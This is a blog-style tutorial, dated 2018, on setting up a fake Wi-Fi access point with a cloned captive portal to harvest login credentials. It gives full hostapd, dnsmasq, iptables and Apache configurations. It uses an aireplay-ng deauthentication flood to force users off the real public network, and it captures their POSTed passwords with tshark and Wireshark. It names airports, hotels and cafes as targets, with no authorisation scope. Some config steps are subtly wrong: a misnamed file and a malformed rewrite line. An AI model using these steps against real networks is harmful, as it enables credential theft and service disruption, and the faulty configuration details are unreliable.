 ```yaml
---
layout: post
comments: true
title:  "Building a Fake Access Point and Using a Captive Portal to Get Login Credentials"
date:   2018-12-23 21:26:27
categories: Kali, DHCP, hostapd, DNS, Apache, Wireshark, HTML, Web Server, Penetration Testing
---
```


 Note: for this project I will presume that you have already cloned a captive portal of an open business network that you usually would see in airports, hotel lobbies, coffee shops, and other venues that offer free Wi-Fi hot spots. Also, I will presume you have a wireless adapter that supports monitor mode and packet injection with Kali Linux installed (or other penetration testing OS installed). Yayy! Now let's move on to the main course of this documentation.

Below I have documented the process on how to manually create a fake Access Point (AP). However, in order to build a fake AP, one needs to understand the main components of a wifi network. These components are:

1. A wifi card (router) in order to broadcast the signal of an AP. (I will use hostapd tool to broadcast the signal)
2. A DHCP server to give IP addresses to clients that connect to our AP. (I will use dnsmasq tool as a DHCP server)
3. A DNS server to handle DNS requests. (I will use dnsmasq tool as a DNS server)
* dnsmasq tool is rather convenient to use, since it can be used as a DHCP and DNS server at the same time!

* To install hostapd and dnsmasq, type the below command in terminal.  
```shell
apt-get install hostapd dnsmasq
```

1. After installing hostapd and dnsmasq, connect your wireless adapter (ifconfig to confirm this). Once adapter is connected do:
```shell
service network-manager stop
```
(Reason to stop network manager is so that it does not prevent the fake AP from broadcasting a wifi signal)

2. Next, we should enable IP forwarding so that packets can flow through the computer without being dropped. Not only that, we must also delete any IP table rules that might interfere with what we are trying to achieve. Hence, the below commands must be entered in the terminal to clear any firewall rules that might be redirecting packets to somewhere else.
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```
(By default there should not be any IP table rules, however to be on the safe side, if a program modifies and adds IP tables rules then the fake AP will fail, hence the following commands are a precaution.)

3. Next, we will configure dnsmasq to be used as a DHCP server and DNS server. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set the wifi interface
interface=wlan0
#Set the ip range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,8h
#Set the gateway IP address
dhcp-option=3,10.0.0.1
#Set dns server address
dhcp-option=6,10.0.0.1
#Redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```
(The first line that says interface can be found by doing ifconfig and this interface is the one that you wireless adapter uses. The second line states that the range is from 10 to 100 and each ip can last for 8 hours. The third line states the IP of wlan0, usually the 1st IP is used for the the gateway/router and the same config is used for the fourth line. The fifth line states to redirect any request to router's IP)

4. In terminal type the following command to start DHCP server and DNS server.
```shell
dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
```
(Note: make sure you change the above path to where you saved the dnsmasq.conf file)

5. Next, we will configure hostapd to start fake AP, in order to allow people to connect to it. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set wifi interface
interface=wlan0
#Set network name
ssid=FakeAP
#Set channel
channel=1
#Set driver
driver=nl80211
```
(Note: when you set the network name, make sure it has the same name as the captive portal and you can feel free to add a version to it like "FakeAP V2")

6. In terminal type the following command to start hostapd and to begin broadcasting a signal.
```shell
hostapd /root/Downloads/fake-ap/hostapd.conf -B
```
(Here, -B is used so that it will execute the above command in the background. Also, make sure you change the above path to where you saved the hostapd.conf file)

7. Next, we will configure wlan0 (or whatever interface that your running) to have an IP address of 10.0.0.1
```shell
ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
```
(Note: change interface to the one you are using, in my case its wlan0. The reason we use 10.0.0.1 is because this is the ip address that is used by the dnsmasq.conf and all the requests is configured to go to this IP. Here, 255.255.255.0 address is the most common subnet mask used on computers connected to Internet Protocol (IPv4) networks)

8. Start Web server to launch the cloned captive portal. Hence, when the client clicks on the fake AP the captive portal web page is displayed.
```shell
service apache2 start
```

9. In this step, we will sniff and analyze login credentials that the user enters into the cloned captive portal. However, instead of waiting for client to connect to FakeAP we could use a deauthentication attack on the real captive portal network and lure clients into using the FakeAP. Hence, we will run the following deauthentication attack command in terminal.
```shell
aireplay-ng --deauth 100000 -a (mac address of AP) wlan0
```
Note: in order to find mac address of AP use airodump-ng as follows:
    ```shell
    airodump-ng --band a wlan0
    ```
    
10. By continously sending thousand of deauth packets... it will prevent the user from reconnecting back to the portal. Hence, they will be lured into using our fake captive portal. Now, we can start to sniff the login info either by using Ettercap or MITMF, but for this example I will use Tshark. 
```shell
tshark -i wlan0 -w wifisniff.cap
```
(Note: -i wlan0 is the interface used to sniff data which will be our wireless card and -w wifisniff.cap will be where I store all the sniffed data)

Once a client enters the credential, we can analyze the .cap file using Wireshark. Just simply type *wireshark* in terminal and filter out http and search for a POST request. Eventually you should find the clients credentials in the HTML form :)


**Update - Redirecting Requests to Captive Portal Login Page**

When a client first connects to a captive portal the system will send requests to a specific server depending on the system whether it runs on mac OS, Linux or Windows. If the system gets a response it was expecting then it will think that this is a normal network and it wont do anything.
    However, if the clients system does not get a response it was expecting, it will then think that the network is a captive portal and it will proceed to show the client the captive portal login page.

**Solution for the above issue**

1. Requests sent to www. websites have to be redirected to just the domain name (for example, google.com instead of www.google.com). Therefore, in order to achieve this we have to modify the apache configuration file.
To open the configuration file type the following in terminal:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```
(Note: I am using leafpad text editor to open the configuration file... feel free to use another text editor.)

2. In order to delete just the www part, we need to use rewrite rules to redirect www to just the domain name. In this case we will add a directory tag at the bottom of the configuration file.
```html
<Directory "/var/www/html">  <!-- /var/www/html is the location of where my website is stored-->
    RewriteEngine On         <!--enables rewrite engine-->
    RewriteBase /            <!--rewrite base is in web root-->
    RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]   <!--rewrite condition works based on Regex-->
    RewriteRule ^(.*)$ http://%1/$1 [R=301,L]
</Directory>
```

3. Restart apache web server in terminal.
```shell
service apache2 restart
```

4. After restarting web server and if you test out the FakeAP network, you will notice a web browser pop up. However, this browser will show a 404 error saying "Not Found" (the reason why a 404 error is showed is because the url is altered by the the system OS.) To fix this, we will configure the web server so that if a file is not found it will redirect the person to the home page. In our case it would be to redirect a 404 error to the cloned captive portal login page. So in terminal type the following command and feel free to use your preferred text editor:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```

5. On the top of the configuration file type in the following:
```html
ErrorDocument 404 /
```
(Note: Here / is used to redirect to web root) Don't close the text editor just yet... see next step!

6. Also, just to be on the safe side at the bottom of the configuration file inside the <Directory> tag we will put the following rewrite rules. This step is the same as the above step but it is used to make sure that it works with any smart phone.
```html
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond ^(.*)$ / [L,QSA]
```

7. Restart apache web server in terminal. Now, your page should pop up in a web browser when a client clicks on the FakeAP network.
```shell
service apache2 restart
```    
